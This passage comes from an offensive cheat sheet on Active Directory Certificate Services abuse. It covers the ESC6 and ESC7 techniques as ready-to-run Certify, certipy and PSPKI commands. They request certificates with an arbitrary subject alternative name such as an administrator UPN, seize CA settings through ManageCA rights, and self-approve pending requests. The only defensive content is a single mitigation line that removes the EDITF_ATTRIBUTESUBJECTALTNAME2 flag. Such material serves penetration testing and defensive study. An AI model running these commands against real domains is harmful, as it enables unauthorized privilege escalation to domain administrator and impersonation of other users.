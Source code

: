#### 2) Request a certificate for a template and add an altname, even though the default User template doesn't normally allow to specify alternative names

 - Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:User /altname:localadmin

 - certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local

## Mitigation

### Remove the flag

 - certutil.exe -config "CA01.domain.local\CA01" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2

# ESC7 - Vulnerable Certificate Authority Access Control 

## Exploitation

#### 1) Detect CAs that allow low privileged users the ManageCA or Manage Certificates permissions

 - Certify.exe find /vulnerable

#### 2) Change the CA settings to enable the SAN extension for all the templates under the vulnerable CA (ESC6)

 - Certify.exe setconfig /enablescan /restart

#### 3) Request the certificate with the desired SAN.

 - Certify.exe request /template:User /altname:super.adm

#### 4) Grant approval if required or disable the approval requirement

 - Certify.exe issue /id:[REQUEST ID] (Grant)

 - Certify.exe setconfig /removeapproval /restart (Disable)

## Alternate Method: Certify and PSPKI

#### 1) # Request a certificate that will require an approval

 - Certify.exe request /ca:dc.domain.local\theshire-DC-CA /template:ApprovalNeeded

#### 2) Use PSPKI module to approve the request

 - Import-Module PSPKI

 - Get-CertificationAuthority -ComputerName dc.domain.local | Get-PendingRequest -RequestID 336 | Approve-CertificateRequest
